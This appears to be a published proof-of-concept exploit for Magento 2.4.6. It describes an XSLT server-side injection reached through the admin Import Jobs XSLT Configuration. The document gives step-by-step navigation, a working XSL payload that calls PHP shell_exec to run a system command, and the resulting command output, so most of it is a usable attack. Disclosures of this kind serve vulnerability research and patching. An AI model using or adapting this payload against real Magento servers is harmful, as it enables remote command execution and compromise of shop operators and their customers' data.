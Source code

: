 # Magento-ver.-2.4.6
Magento ver. 2.4.6 - XSLT Server Side Injection
# Exploit Title: Magento ver. 2.4.6 - XSLT Server Side Injection

- **Date:** 2023-11-17
- **Exploit Author:** tmrswrr
- **Vendor Homepage:** [https://magento2demo.firebearstudio.com/](https://magento2demo.firebearstudio.com/)
- **Software Link:** [Magento 2.4.6-p3](https://github.com/magento/magento2/archive/refs/tags/2.4.6-p3.zip)
- **Version:** 2.4.6
- **Tested on:** 2.4.6

## POC

1. Enter with admin credentials to this URL: [https://magento2demo.firebearstudio.com/](https://magento2demo.firebearstudio.com/)
2. Click `SYSTEM > Import Jobs > Entity Type Widget > click edit`
3. Choose  Import Source is File
4. Click `XSLT Configuration` and write this payload:

   ```xml
   <?xml version="1.0" encoding="utf-8"?>
   <xsl:stylesheet version="1.0"
   xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
   xmlns:php="http://php.net/xsl">
     <xsl:template match="/">
       <xsl:value-of select="php:function('shell_exec','id')" />
     </xsl:template>
   </xsl:stylesheet>```
   
**<?xml version="1.0"?>
**uid=10095(a0563af8) gid=1050(a0563af8) groups=1050(a0563af8)

